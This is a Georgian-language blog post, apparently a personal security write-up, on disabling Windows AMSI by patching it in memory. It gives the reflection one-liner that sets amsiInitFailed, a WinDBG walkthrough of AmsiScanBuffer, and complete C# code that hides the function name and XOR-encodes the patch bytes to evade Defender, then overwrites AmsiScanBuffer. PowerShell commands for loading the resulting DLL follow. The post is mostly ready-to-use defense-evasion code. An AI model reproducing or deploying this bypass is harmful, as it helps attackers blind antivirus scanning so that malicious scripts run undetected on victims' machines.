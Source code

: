 ```yaml
---
title: "AMSI In-Memory Patching"
date: 2023-03-07T01:38:06+04:00
draft: false
---
```

<br><br>


![Untitled](/images/amsi-1/amsi-arch.jpg)

**AMSI** ანუ **Anti Malware Scan Interface** არის Microsoft - ის მიერ შემუშავებული ტექნოლოგია, რომლის მიზანიც იყო და არის memory ში მავნე signature - ების დაფიქსირება და იგი პირველად გაჩნდა Windows 10 - ში. AMSI - ს შეუძლია შეანელოს "შემტევის" აქტივობები, თუმცა მასზე თავის არიდება არ არის რთული და დროის საკითხია.

თქვენ, რომ დაგუგლოთ `amsi bypass` ან `amsi evasion`, უამრავ გამზადებულ “ქომანდებს” ნახავთ, რომელთა ნახევარი უბრალოდ არ იმუშავებს. მიზეზი კი ის არის, რომ ანტივირუსი, რომელიც სისტემაზე არის, მუდმივად განიცდის განახლებას და “მზა” ქომანდები სულაც არ არის ისეთ “მზამზარეული” როგორიც ერთი შეხედვით ჩანდა.
<!--more-->
მაგალითად, ავიღოთ ეს ქომანდი, რომელიც 2016 წელს არის დაინტიფიცირებული:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

ამ ქომანდის მიზანი არის .NET reflection ტექნიკის დახმარებით მოახერხოს მემორიში `amsiInitFailed` ცვლადის შეცვლა, რის მერეც გაითიშება AMSI.

თუმცა, პრობლემა იმაშია რომ `AmsiUtils` სტრინგი იდენტიფიცირდება როგორც მავნე:

![Untitled](/images/amsi-1/Untitled.png)

მაშასადამე, საჭირო ხდება სტრინგის ე.წ “დამახინჯება” ანუ ობფუსკაცია.

მაგალითად:

![Untitled](/images/amsi-1//Untitled%201.png)

![Untitled](/images/amsi-1//Untitled%202.png)

თუმცა, პრობლემა ჯერ ვერ მოგვარდა. პრობლემა იმაშია რომ მსგავსი ე.წ “ბაიპასის” მეთოდები დამოკიდებულია პიროვნების კრეატიულობაზე (თუმცა დიდად არ მოითხოვს კრეატიულობას). საჭირო ხდება სხვანაირი მიდგომა. საჭიროა ქომანდების ძირფესვიანად გააზრება.

მსგავს შემთხვევებში საჭიროა გავიგოთ რა ქომანდებს ვაკოპირებთ, და ზოგადად როგორ მუშაობს AMSI.

თუმცა ეს პოსტი ეხება ცოტა სხვა საკითხს. იმისათვის, რომ არ ვიწვალოთ ბევრი ახალი იდეის მოფიქრებაზე, დაგვიჭრდება პირდაპირ მემორიში საჭირო ადგილას საჭირო ინსტრუქციების შეცვლა.

მაგალითად, **powershell.exe** როცა ვხსნით, ხდება **amsi.dll** ის ჩატვირთვა, შემდგომ ხდება `AmsiInitialize()` ფუნქციის გამოძახება, რომელიც ამზადებს გარემოს AMSI - სთვის. შემდგომ როცა `powershell` - ში ახალ ქომანდს გავუშვებთ ხდება:

1. `AmsiOpenSession()` ის გამოძახება
2. `AmsiScanBuffer()` ის გამოძახება    **// აქ ხდება შემომავალი ქომანდის შემოწმება**
3. `AmsiCloseSession()` ის გამოძახება ბოლოს.

ამჯერად ავიღოთ `AmsiScanBuffer` და ვნახოთ მისი ინსტრუქციები მემორიში `WinDBG` - ის დახმარებით:

ვსვავთ ე.წ `breakpoint` - ს, `amsi!AmsiScanBuffer` - ზე

**შენიშვნა:** `amsi!` ნიშნავს, რომ ვაკითხავთ `amsi.dll` ფაილს. ხოლო ძახილის შემდგომ ვწერთ ამ dll ში არსებულ დაექსპორტებულ ფუნქციას.

![Untitled](/images/amsi-1//Untitled%203.png)

და როდესაც რაიმე ქომანდს გავუშვებთ, და-trigger-დება:

![Untitled](/images/amsi-1//Untitled%204.png)

![Untitled](/images/amsi-1//Untitled%205.png)

ქვემოთა სურათზე ვხედავთ, რომ მოწმდება არგუმენტები, რომელიც გადავეცით `AmsiScanBuffer` - ს. თუ რაიმე არასწორია, მაშინ “ვხტებით” ინსტრუქციაზე:

```c
# 0x80070057h = E_INVALIDARG
mov eax, 0x80070057h
```

![Untitled](/images/amsi-1//Untitled%206.png)

შესაბამისად აქედან ვიგებთ, რომ თუკი `AmsiScanBuffer` - ს რაიმე რეგისტრი არ მოეწონა, მაშინ ხტება ბოლო ინსტრუქციებზე და ითიშება “amsi”.

დავწეროთ `C#` ში კოდი, რომელიც იპოვის მიმდინარე პროცესის მემორიში არსებულ `amsiScanBuffer` ფუნქციას და შევლის მას.

შენიშვნა: ქვემოთ მოცემულ კოდში, ვაკეთებთ XOR ოპერაციას ქვემოთ მოცემულ ბაიტებზე. რადგან, defender აღიქვავს კონკრეტულ ბაიტებს საეჭვოდ და ათრიგერებს. შესაბამისად აქ დაგვჭირდა XOR ოპერაციის გაკეთება. შემდგომ პოსტებში შევეხებით `AV Evasion` თემებს.
ჩვენი მიზანია `AmsiScanBuffer` - ის პირველი assembly ინსტრუქციები ჩავანაცვლოთ შემდეგი ბაიტებით:

```0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3```

```csharp
using System;
using System.Reflection;
using System.Security.Policy;
using System.Runtime.InteropServices;   // გვჭირდება WinAPI ფუნქციების დაიმპორტებისთვის
using System.Text;
using System.Collections.Generic;

namespace ClassLibrary1
{
    public class Class1
    {
		// საჭირო WinAPI ფუნქციების დეკლარაცია
        [DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        
        public static void runner()
        {
			// amsi.dll მოდულის მისამართის "აღება"
            IntPtr amsiPtr = GetModuleHandle("amsi.dll");
            StringBuilder haha = new StringBuilder();
			// "AmsiScanBuffer" - როგორც ერთ სტრინგს, Defender აღიქვავს, როგორც მავნე signature
            haha.Append("Am");
            haha.Append("si");
            haha.Append("Sc");
            haha.Append("an");
            haha.Append("Buffer");

			// "AmsiScanBuffer" მისამართის აღება amsi.dll მოდულიდან.
            var amsiScanBuf = GetProcAddress(amsiPtr, haha.ToString());

			// ეს hex ბაიტები იყო და-XOR-ებული 0xC სთან - ეს საჭირო იყო defender ისთვის გვერდის ავლისთვის.
            //new opcodes
            byte[] encodedopcodes = new byte[] { 0xB4, 0x5B, 0x0C, 0x0B, 0x8C, 0xCF };
            byte[] decodedOpcodes = new byte[6];
            List<byte> objList = new List<byte>();

            foreach (byte opcode in encodedopcodes)
            {
                objList.Add((byte)(opcode ^ 0xc));
            }
            objList.CopyTo(decodedOpcodes);

			// memory page - ისთვის შესაბამისი პერმიშენების მინიჭება - 0x40
            VirtualProtect(amsiScanBuf, (UIntPtr)encodedopcodes.Length, 0x40, out uint oldProtect);
            Marshal.Copy(decodedOpcodes, 0, amsiScanBuf, decodedOpcodes.Length);
        }
    }
}
```

აღსანიშნავია, რომ ეს უნდა შევინახოთ როგორც `.DLL` ფაილი და შემდგომ იგი უნდა ჩავტვირთოთ როგორც ახალი .NET Assembly:

```powershell
$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Public\ClassLibrary1.dll")
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

პირველ რიგში დავრწმუნდეთ, რომ ეს ჩვენი სტრინგი: “**AmsiUtils**” დაფიქსირებადია Windows Defender - ის მიერ:

![Untitled](/images/amsi-1//Untitled%207.png)

ჩავტვირთოთ ჩვენი ახალი `.NET Assembly` მიმდინარე პროცესში:

![Untitled](/images/amsi-1//Untitled%208.png)

![Untitled](/images/amsi-1//Untitled%209.png)

შესაბამისად, დავინახეთ რომ პირდაპირ მემორიში "მაქინაციების" დახმარებით მივაღწიეთ მიზანს, გავთიშეთ **AMSI** ისე, რომ ანტივირუსი არ დათრიგერდა.

და ბოლოს, ყურადღებას ვამახვილებ შემდეგ კოდის ნაწილზე:


```csharp
 		[DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

```

თუ გსურთ, რომელიმე WinAPI ფუნქციის დაიმპორტება და რომ არ იწვალოთ ამ ფუნქციებისთვის დეკლარაციისთვის პარამეტრების მიწერა, შეგილიათ გამოიყენოთ ეს საიტი: https://www.pinvoke.net/


![Untitled](/images/amsi-1/pinvoke.png)